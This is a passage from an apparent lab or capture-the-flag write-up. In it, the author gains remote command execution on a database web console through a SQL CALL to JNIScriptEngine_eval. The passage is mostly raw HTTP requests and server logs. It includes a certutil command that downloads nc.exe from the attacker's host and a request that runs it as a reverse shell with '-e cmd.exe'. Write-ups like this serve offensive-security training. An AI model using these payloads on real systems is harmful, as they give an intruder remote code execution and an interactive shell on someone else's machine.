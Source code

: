 So after that i get callback from the python web server

```
                                                                                               
┌──(mark㉿haxor)-[/usr/share/windows-resources/binaries]
└─$ pyws -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.88.66 - - [20/Jan/2023 22:47:32] "GET /nc.exe HTTP/1.1" 200 -
192.168.88.66 - - [20/Jan/2023 22:47:33] "GET /nc.exe HTTP/1.1" 200 -

```

Now lets get shell

I set a netcat listner on port 8082 and then made a request to call nc.exe to connect back to use and give us shell

But it didn't work why

Cause the user doesn't have write access over that directory

So i made another download request but this time to place the file in the `C:\windows\temp\` directory

And tried connecting to my machine 

Here's the request

```
POST /query.do?jsessionid=fccede8694ff99b9069cd5519cb99b4d HTTP/1.1
Host: 192.168.88.66:8082
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 272
Origin: http://192.168.88.66:8082
Connection: close
Referer: http://192.168.88.66:8082/query.jsp?jsessionid=fccede8694ff99b9069cd5519cb99b4d
Upgrade-Insecure-Requests: 1

sql=CALL+JNIScriptEngine_eval%28%27new+java.util.Scanner%28java.lang.Runtime.getRuntime%28%29.exec%28%22certutil.exe+-urlcache+-f+http%3a//192.168.49.88/nc.exe+C%3a\\windows\\temp\\shell.exe%22%29.getInputStream%28%29%29.useDelimiter%28%22%5C%5CZ%22%29.next%28%29%27%29%3B
```

Now calling the binary to give us shell

```
POST /query.do?jsessionid=fccede8694ff99b9069cd5519cb99b4d HTTP/1.1
Host: 192.168.88.66:8082
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 272
Origin: http://192.168.88.66:8082
Connection: close
Referer: http://192.168.88.66:8082/query.jsp?jsessionid=fccede8694ff99b9069cd5519cb99b4d
Upgrade-Insecure-Requests: 1

sql=CALL+JNIScriptEngine_eval%28%27new+java.util.Scanner%28java.lang.Runtime.getRuntime%28%29.exec%28%22C%3a\\windows\\temp\\shell.exe+192.168.49.88+8082+-e+cmd.exe%22%29.getInputStream%28%29%29.useDelimiter%28%22%5C%5CZ%22%29.next%28%29%27%29%3B
```

